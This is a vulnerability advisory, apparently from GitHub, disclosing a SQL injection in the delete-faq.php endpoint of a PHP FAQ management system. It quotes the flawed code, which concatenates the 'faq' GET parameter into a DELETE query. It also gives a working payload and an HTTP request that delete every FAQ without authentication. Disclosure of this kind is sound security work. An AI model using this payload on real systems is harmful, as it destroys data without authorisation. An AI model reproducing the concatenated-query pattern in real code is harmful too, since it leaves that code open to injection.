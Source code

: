 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [FAQ Management System Using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17175/faq-management-system-using-php-and-mysql-source-code.html) <br/>

**Affected Version**:
> FAQ Management System Using PHP and MySQL 1.0

**Affected Site Page**: 
> /faq-management-system/endpoint/delete-faq.php<br/>

**Affected Code**: 
> </delete-faq.php> <br/>

Even if there's an attempt to use prepared statements, the code actually recieves the user input via `faq` parameter and writes into `$query`. 

```php
...
if (isset($_GET['faq'])) {
    $faq = $_GET['faq'];

    try {

        $query = "DELETE FROM tbl_faq WHERE tbl_faq_id = '$faq'";

        $stmt = $conn->prepare($query);

        $query_execute = $stmt->execute();
...
```

**Related CWE:**
> [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Details:**
> Allows SQL Injection by placing untrusted code executing a query on the backend, for the POC all FAQs are deleted without any authentication

![image](https://github.com/smurf-reigz/security/assets/48426940/9727f7a4-b6ee-4f4b-b570-98dad4f579de)

Execute Delete query using payload `1337'+or+1=1--+` via the `faq` parameter.

```http 
GET /faq-management-system/endpoint/delete-faq.php?faq=1337'+or+1=1--+ HTTP/1.1
Host: localhost
Connection: close
```

> DELETES all FAQs without authentication.

![image](https://github.com/smurf-reigz/security/assets/48426940/9f60b7fd-746f-4ddf-88fb-72133a16e6e4)

## **Vulnerability Impact:**
> As an attacker, can do the following:
> 1. Run any database query and have same permission as the web application (default for this Web Application is root).

